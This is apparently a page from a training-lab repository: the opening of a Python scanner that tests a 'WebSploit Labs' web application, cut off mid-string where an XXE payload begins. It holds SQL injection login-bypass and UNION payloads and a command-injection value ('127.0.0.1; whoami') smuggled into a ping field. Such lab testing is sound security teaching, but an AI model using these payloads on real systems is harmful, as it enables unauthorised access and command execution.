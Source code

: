 ## 🛠️ Automated Testing Scripts

### Vulnerability Scanner Script
```python
#!/usr/bin/env python3
"""
WebSploit Labs Multi-Vulnerability Scanner
"""

import requests
import base64
import pickle
import os
import json
import jwt
from urllib.parse import quote

class WebSploitScanner:
    def __init__(self, base_url):
        self.base_url = base_url
        self.session = requests.Session()
        
    def test_sql_injection(self):
        """Test for SQL injection vulnerabilities"""
        print("[*] Testing SQL Injection...")
        
        # Authentication bypass
        data = {"username": "admin' OR '1'='1-- ", "password": "test"}
        response = self.session.post(f"{self.base_url}/login", data=data)
        
        if "Login Successful" in response.text:
            print("[+] SQL Injection found in login!")
            return True
        
        # Search SQL injection
        params = {"search": "' UNION SELECT 1,2,3,4-- "}
        response = self.session.get(f"{self.base_url}/shop", params=params)
        
        if "Database Error" in response.text or "sqlite" in response.text.lower():
            print("[+] SQL Injection found in search!")
            return True
            
        return False
    
    def test_command_injection(self):
        """Test for command injection vulnerabilities"""
        print("[*] Testing Command Injection...")
        
        data = {"host": "127.0.0.1; whoami", "count": "1"}
        response = self.session.post(f"{self.base_url}/tools/ping", data=data)
        
        if "root" in response.text or "www-data" in response.text:
            print("[+] Command Injection found!")
            return True
        
        return False
    
    def test_xxe(self):
        """Test for XXE vulnerabilities"""
        print("[*] Testing XXE...")
        
        xxe_payload = '''<?xml version="1.0"?>
```